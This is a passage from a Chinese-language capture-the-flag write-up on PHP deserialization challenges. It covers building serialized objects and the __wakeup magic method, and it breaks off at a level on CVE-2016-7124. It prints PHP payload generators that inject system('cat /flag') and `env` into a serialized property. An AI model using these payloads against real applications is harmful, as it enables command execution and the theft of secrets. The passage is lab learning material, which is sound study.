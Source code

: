 > [!success] 具体操作

先看源码，这道题是让我们熟悉自己反序列化构造，我们只需要修改`flag_command`的值即可。复制到自己的PHP环境去，然后获得序列化字符串即可
![Pasted image 20250406105421](https://github.com/user-attachments/assets/11248887-0298-4104-94ce-b4ae2ed65e9d)

具体payload，理论上可行，但是不知道为什么一直出不来
```
<?php
class FLAG {
    var $flag_command = "system('cat /flag');";
}
$exp = "o=".urlencode(serialize(new FLAG()));
echo $exp;
```
法二：使用`env`来获取所有变量,这个方法可行
```
<?php
class FLAG {
    var $flag_command = "`env`;";
}
$exp = "o=".urlencode(serialize(new FLAG()));
echo $exp;
```

### level 10: 魔术方法__wakeup

> [!NOTE] 前置知识

正式的进入了反序列化的题目，这里我们从第一个常见的魔术方法 —— `__wakeup()` 开始。

> [unserialize()](https://www.php.net/manual/zh/function.unserialize.php) 会检查是否存在一个 [__wakeup()](https://www.php.net/manual/zh/language.oop5.magic.php#object.wakeup) 方法。如果存在，则会先调用 `__wakeup` 方法，预先准备对象需要的资源。
> 
> [__wakeup()](https://www.php.net/manual/zh/language.oop5.magic.php#object.wakeup) 经常用在反序列化操作中，例如重新建立数据库连接，或执行其它初始化操作。
> 
> ——[【PHP 手册 - 魔术方法 # wakeup】](https://www.php.net/manual/zh/language.oop5.magic.php#object.wakeup)

当我们从序列化字符串还原对象，也就是进行反序列化操作的时候，wakeup方法会被触发：


> [!success] 具体操作

准备秒杀，直接看payload，输入即可
![Pasted image 20250406111448](https://github.com/user-attachments/assets/1cf14267-88b7-463f-baba-294e8ef2af2a)
![Pasted image 20250406111658](https://github.com/user-attachments/assets/c139b084-ca98-4615-9146-cb3a2083796a)


### level 11:CVE-2016-7124

> [!NOTE] 前置知识

复习一下序列化字符串
![[Pasted image 20250405134037.png]]
